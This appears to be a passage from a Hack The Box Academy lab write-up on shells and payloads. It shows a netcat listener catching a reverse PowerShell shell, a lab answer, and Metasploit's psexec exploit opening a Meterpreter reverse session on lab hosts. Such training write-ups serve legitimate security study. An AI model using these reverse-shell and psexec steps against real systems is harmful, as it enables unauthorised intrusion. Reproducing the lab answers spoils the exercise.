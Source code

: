 ![](./attachments/Pasted%20image%2020230130125702.png)

```
┌──(kali㉿kali)-[~]
└─$ sudo nc -lvnp 443                  
[sudo] password for kali: 
Ncat: Version 7.93 ( https://nmap.org/ncat )
Ncat: Listening on :::443
Ncat: Listening on 0.0.0.0:443
Ncat: Connection from 10.129.201.51.
Ncat: Connection from 10.129.201.51:60452.
PS C:\Windows\system32> hostname
Shells-Win10
```

**Answer:** `Shells-Win10`

---
## Automating Payloads & Delivery with Metasploit
### Question 1:
![](./attachments/Pasted%20image%2020230131200208.png)
*Hint: Pay close attention to what happens when we run the exploit*

```
msf6 exploit(windows/smb/psexec) > exploit

[*] Started reverse TCP handler on 10.10.14.222:4444 
[*] 10.129.180.71:445 - Connecting to the server...
[*] 10.129.180.71:445 - Authenticating to 10.129.180.71:445 as user 'htb-student'...
[*] 10.129.180.71:445 - Selecting PowerShell target
[*] 10.129.180.71:445 - Executing the payload...
[+] 10.129.180.71:445 - Service start timed out, OK if running a command or non-service executable...
[*] Sending stage (175174 bytes) to 10.129.180.71
[*] Meterpreter session 1 opened (10.10.14.222:4444 -> 10.129.180.71:49675) at 2021-09-13 17:43:41 +0000

meterpreter > 
```
